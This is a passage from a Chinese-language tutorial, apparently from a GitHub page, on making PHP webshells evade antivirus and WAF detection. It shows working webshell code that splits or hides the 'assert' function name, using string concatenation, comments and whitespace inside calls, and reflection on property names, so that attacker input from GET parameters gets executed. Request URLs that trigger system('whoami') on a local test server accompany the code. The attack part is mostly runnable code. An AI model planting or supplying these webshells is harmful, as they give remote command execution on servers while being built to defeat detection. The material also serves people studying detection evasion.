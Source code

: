 然后在 test.txt 中写入： `assert`

把 webshell 和 test.php 一起传到服务端，再访问触发：

```http
http://127.0.0.1:8081/security/bypass/test30.php?1=system(%27whoami%27)
```

#### 2.6 注释及空白符混淆

这种方式和 sql 注入差不多，原理就是 php **允许在括号中添加注释符和空白符并不会影响代码正常运行**

```php
<?php
$func = $_GET["func"];
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c(//);//(
    $func//);//);
)
?>
```

```http
http://127.0.0.1:8081/security/bypass/test31.php?func=system(%27whoami%27)&func2=sert
```

#### 2.7 反射调用

反射类及反射类方法

```php
<?php
    $class          = new \ReflectionClass('Site\\Website');  // 以类名 Website 作为参数，即可创建 Website 类的反射类
    $properties     = $class->getProperties();      // 以数组的形式返回 Website 类的所有属性
    $property       = $class->getProperty('name');  // 获取 Website 类的 name 属性
    $methods        = $class->getMethods();         // 以数组的形式返回 Website 类的所有方法
    $method         = $class->getMethod('getName'); // 获取 Website 类的 getName 方法
    $constants      = $class->getConstants();       // 以数组的形式获取所有常量
    $constant       = $class->getConstant('TITLE'); // 获取 TITLE 常量
    $namespace      = $class->getNamespaceName();   // 获取类的命名空间
    $comment_class  = $class->getDocComment();      // 获取 Website 类的注释文档，即定义在类之前的注释
    $comment_method = $class->getMethod('getUrl')->getDocComment();  // 获取 Website 类中 getUrl 方法的注释文档
?>
```



通过属性名免杀：

```php
<?php
class a{
    public $assert2;
}
$class = new ReflectionClass(new a());
substr($class->getProperties()[0]->name,0,6)($_GET[1]);
```

